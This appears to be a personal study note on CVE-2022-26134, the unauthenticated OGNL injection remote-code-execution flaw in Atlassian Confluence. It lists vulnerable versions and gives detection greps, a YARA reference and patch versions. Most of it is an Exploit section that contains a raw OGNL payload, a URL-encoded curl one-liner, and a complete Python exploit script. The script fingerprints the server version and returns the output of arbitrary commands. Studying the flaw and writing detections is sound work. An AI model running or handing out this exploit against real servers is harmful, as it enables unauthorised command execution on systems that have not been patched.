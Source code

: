 
On May the 30th, 2022, an organisation named Volexity identified an un-authenticated RCE vulnerability (scoring 9.8 on NIST) within Atlassian's [Confluence Server and Data Center editions](https://www.atlassian.com/software/confluence). Confluence is a collaborative documentation and project management framework for teams. Confluence helps track project status by offering a centralised workspace for members. The following versions of Confluence are vulnerable to this CVE:  

-   1.3.0 -> 7.4.17
-   7.13.0 -> 7.13.7
-   7.14.0 -> 7.14.3 
-   7.15.0 -> 7.15.2 
-   7.16.0 -> 7.16.4
-   7.17.0 -> 7.17.4
-   7.18.0 -> 7.18.1

Vulnerability is within the [OGNL](https://en.wikipedia.org/wiki/OGNL) (Object-Graph Navigation Language) expression language for Java; OGNL is used in Java-based web applications such as Confluence. It allows for the 
execution of methods of Java classes..

## Exploit

URL-encoding and 
```java
${@java.lang.Runtime@getRuntime().exec("<cmd>")}/
```

```bash
# Remember to URL encode the command
# The URL must end with a trailing / not $SF
CMD=
curl -v "http://$host:$port/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22$CMD%22%29%7D/"
```

[Packetstorm Python3 Exploit](https://packetstormsecurity.com/files/167430/Confluence-OGNL-Injection-Remote-Code-Execution.html)

THM version of the Naqwada version that is 404
```python
# -*- coding: utf-8 -*-

# Author:   Naqwada (RuptureFarm 1029) <naqwada@pm.me>
# License:  MIT License (http://www.opensource.org/licenses/mit-license.php)
# Docs:     https://github.com/Naqwa/CVE-2022-26134
# Website:  http://samy.link/
# Linkedin: https://www.linkedin.com/in/samy-younsi/
# Note:     FOR EDUCATIONAL PURPOSE ONLY.

from bs4 import BeautifulSoup
import requests
import urllib3
import re
import sys
urllib3.disable_warnings()

def banner():
  CVE_2022_26134Logo = """
   _______    ________                                
  / ____/ |  / / ____/                                
 / /    | | / / __/                                   
/ /___  | |/ / /___                                   
\____/  |___/_____/___       ___   _____________ __ __
  |__ \ / __ \__ \|__ \     |__ \ / ___<  /__  // // /
  __/ // / / /_/ /__/ /_______/ // __ \/ / /_ </ // /_
 / __// /_/ / __// __/_____/ __// /_/ / /___/ /__  __/
/____/\____/____/____/    /____/\____/_//____/  /_/   
                                                      
                  \033[1;91mCVE-2022-26134 - OGNL injection vulnerability\033[1;m                  
Author: \033[1;92mNaqwada\033[1;m                         
RuptureFarm 1029      
                FOR EDUCATIONAL PURPOSE ONLY.   
  """
  return print('\033[1;94m{}\033[1;m'.format(CVE_2022_26134Logo))


def check_target_version(host):
  try:
    response = requests.get("{}/login.action".format(host), verify=False, timeout=8)
    if response.status_code == 200:
      filter_version = re.findall("<span id='footer-build-information'>.*</span>", response.text)
      
      if len(filter_version) >= 1:
        version = filter_version[0].split("'>")[1].split('</')[0]
        return version
      else:
        return False
    else:
      return host
  except:
    return False


def send_payload(host, command):   
    payload = "%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D".format(command)
    response = requests.get("{}/{}/".format(host, payload), verify=False, allow_redirects=False)
    
    try:
      if response.status_code == 302:
          return response.headers["X-Cmd-Response"]
      else:
          return "This target does not seem to be vulnerable."
    except:
      return "This target does not seem to be vulnerable."


def main():
  banner()
  if len(sys.argv) < 3:
    print("\033[1;94mHow to use:\033[1;m")
    print("python3 {} https://target.com cmd".format(sys.argv[0]))
    print("ex: python3 {} https://target.com id".format(sys.argv[0]))
    print("ex: python3 {} https://target.com 'ps aux'".format(sys.argv[0]))
    return
  
  target = sys.argv[1]
  cmd = sys.argv[2]
  version = check_target_version(target)

  if version:
    print("Confluence target version: \033[1;94m{}\033[1;m".format(version))
  else:
    print("Can't find the used version for this target. Is the target offline?")
    return
  
  exec_payload = send_payload(target, cmd) 
  print(exec_payload)

if __name__ == "__main__":
   main()
```


## Detection

Confluence is an Apache Tomcat server which has logging located in `/opt/atlassian/confluence/logs` - search with grep: `grep -R "/%24%7B%40java.lang.Runtime%40getRuntime%28%29.exec%28%22"`

Or use the [[Yara]] [Rule for the CVE](https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar)


## Mitigation 

[Atlassian advisory](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) 
Patch to nearest:
-   7.4.17
-   7.13.7
-   7.14.3
-   7.15.2
-   7.16.4
-   7.17.4
-   7.18.1

## References

[THM Atlassian Room](https://tryhackme.com/room/cve202226134)
[Wikipedia OGNL](https://en.wikipedia.org/wiki/OGNL)
[Atlassian advisory](https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html) 
[Rule for the CVE](https://github.com/volexity/threat-intel/blob/main/2022/2022-06-02%20Active%20Exploitation%20Of%20Confluence%200-day/indicators/yara.yar)
[NIST National Vulnerability Database Entry (CVE-2022-26134)](https://nvd.nist.gov/vuln/detail/CVE-2022-26134)
[Hunting for Confluence RCE - CVE-2022–26134](https://medium.com/@th3b3ginn3r/hunting-for-cve-2022-26134-confluence-rce-on-linux-server-ae9ce0176b4a)
[Exploring and remediating the Confluence RCE](https://www.datadoghq.com/blog/confluence-vulnerability-overview-and-remediation/)
[What is OGNL Injection?](https://www.contrastsecurity.com/glossary/ognl-injection-ognl)
[Citrix: Guidance for reducing unauthenticated OGNL injection RCE](https://www.citrix.com/blogs/2022/06/09/reducing-unauthenticated-ognl-injection-security-vulnerability-risk-cve-2022-26134/)
[Exploring OGNL Injection in Apache Struts](https://pentest-tools.com/blog/exploiting-ognl-injection-in-apache-struts)
[Packetstorm Python3 Exploit](https://packetstormsecurity.com/files/167430/Confluence-OGNL-Injection-Remote-Code-Execution.html)